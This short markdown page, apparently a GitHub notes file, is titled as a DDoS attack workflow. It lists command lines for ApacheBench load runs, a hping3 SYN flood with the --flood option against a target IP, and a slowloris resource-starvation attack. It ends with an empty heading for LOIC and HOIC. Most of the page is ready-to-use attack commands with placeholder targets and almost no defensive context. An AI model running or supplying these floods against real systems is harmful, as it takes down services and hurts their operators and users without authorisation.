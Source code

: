 # Workflow: DDos Attack Using ab + hping3 + slowloris

For normal loads

``ab -n 100 -c 10 http://target-app/``

Push server loads

``ab -n 1000 -c 100 http://target-app/``

Understanding output:
Look out for failed requests, higher time/reqs, and error codes

SYN Floods

``sudo hping3 -S -p 80 --flood <Target IP>``

Slowloris - Resource Starvation

``slowloris target-app -p 80 -s 500``

# Workflow Using LoiC & HoiC

